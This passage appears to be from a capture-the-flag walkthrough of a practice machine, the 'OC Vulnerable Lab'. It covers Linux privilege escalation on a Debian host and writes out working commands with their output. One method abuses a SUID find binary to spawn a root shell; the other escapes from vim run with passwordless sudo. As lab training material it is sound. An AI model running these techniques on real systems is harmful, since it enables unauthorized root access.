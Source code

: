 
## Phase 8: Privilege Escalation

### Method 1: SUID Binary Exploitation

```bash
user1@debian:~$ find / -perm -u=s -type f 2>/dev/null | grep find
```

**SUID Find Discovery:**
```
/usr/bin/find
```

```bash
user1@debian:~$ ls -la /usr/bin/find
-rwsr-xr-x 1 root root 315904 Feb 16  2021 /usr/bin/find
```

**Exploitation Process:**
```bash
user1@debian:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
# id
uid=1001(user1) gid=1001(user1) euid=0(root) groups=1001(user1)
```

**Root Shell Proof:**
```bash
# cat /root/root.txt
Congratulations! You have achieved root access!
FLAG{R00t_Ach13v3d}

Your journey through the OC Vulnerable Lab is complete.
Total flags captured: 24/24
```

### Method 2: Sudo Vim Escape

```bash
user1@debian:~$ sudo -l
```

**Sudo Privileges:**
```
User user1 may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/vim
```

**Vim Escape Process:**
```bash
user1@debian:~$ sudo vim
```

**Inside Vim:**
```
~
~
~
:!/bin/bash
```
